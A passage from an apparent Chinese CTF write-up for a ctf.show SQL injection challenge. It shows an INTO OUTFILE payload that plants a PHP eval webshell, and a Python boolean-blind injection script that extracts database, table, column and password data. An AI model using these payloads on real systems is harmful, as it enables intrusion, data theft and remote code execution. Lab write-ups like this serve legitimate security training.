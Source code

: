 - 布尔盲注
- 时间盲注
- 堆叠注入

那还是布尔盲注快一点，写个脚本，写脚本过程，发现题目过滤了`'`单引号，把单引号置空了，双引号还能用


#### 写马子

双引号还能用？直接写马子

```plaintext
username=\&password=or 1=1;select "<?php highlight_file(__FILE__);eval(\$_POST[1]);?>" into outfile "/var/www/html/1.php"#
```



#### 布尔盲注

布尔盲注发现数据库里是fake flag

```python
import requests

url = "http://5225f93f-e444-49d0-9bbb-fac89d89c23c.challenge.ctf.show/login.php"
flag = ""

i = 0
while True:
    i += 1
    low, high = 32, 126
    while low < high:
        mid = (low + high + 1) // 2
        # payload = f"or if(ascii(substr((select user()),{i},1))<{mid},1,0)#"
        
        # 爆库
        # information_schema,test,mysql,performance_schema,ctfshow_page_informations
        # payload = f"or if(ascii(substr((select group_concat(schema_name) from information_schema.schemata),{i},1))<{mid},1,0)#"
        # 爆表
        # pages,users
        # payload = f"or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{mid},1,0)#"
        # 爆列
        # USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,id,username,password
        # payload = f"or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name=\"users\"),{i},1))<{mid},1,0)#"
        # 爆users 表 password
        # CTF{this_is_a_fake_flag}
        # payload = f"or if(ascii(substr((select concat(password) from users),{i},1))<{mid},1,0)#"
        data = {"username": "\\", "password": payload}
        r = requests.post(url, data=data)
        # print(f"[+]payload: {payload}")
        if "Welcome" in r.text:
            high = mid - 1
        else:
            low = mid

    if low <= 32 or low >= 126:
        break

    flag += chr(low)
    print(f"[+]flag: {flag}")

print(f"[+]flag: {flag}")
```
